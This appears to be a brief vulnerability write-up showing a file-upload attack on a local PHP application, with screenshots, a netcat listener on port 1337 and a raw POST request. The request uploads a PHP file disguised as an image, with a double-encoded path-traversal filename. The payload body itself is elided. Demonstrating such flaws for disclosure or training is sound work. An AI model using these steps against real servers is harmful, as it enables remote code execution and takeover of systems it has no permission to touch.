 <br>
<br>

<img width="1257" height="502" alt="image" src="https://github.com/user-attachments/assets/644d0914-bb24-48dc-800f-243f7d20a513" />

<br>
<br>
<h2>locahost:6969/dashboard.php</h2>

<img width="1257" height="440" alt="image" src="https://github.com/user-attachments/assets/b09d4912-bcff-4e7e-9c99-75036f1cbbcc" />

<br>
<br>
<h2>locahost:6969/uploads/</h2>

<img width="1261" height="381" alt="image" src="https://github.com/user-attachments/assets/021f2425-d1c3-43f0-8c76-1cde7b66d212" />

<br>
<br>
<h2>Listener</h2>

```bash
:~/Backtrack# nc -nlvp 1337
Listening on 0.0.0.0 1337
```

<br>
<br>
<p>

<img width="1088" height="521" alt="image" src="https://github.com/user-attachments/assets/d656e94b-7df3-48ec-b720-d0f9bbc21690" />


```bash
POST /dashboard.php HTTP/1.1
Host: localhost:6969
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://localhost:6969/dashboard.php
Cookie: PHPSESSID=ofpuclnfivfsda0ejq8t9qkk93
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: multipart/form-data;
Content-Length: 5948

-----------------------------241139083326356678182431439073
Content-Disposition: form-data; name="image"; filename="%25%32%65%25%32%65%25%32%66rev.png.php"
Content-Type: application/x-php

<?php
...
```
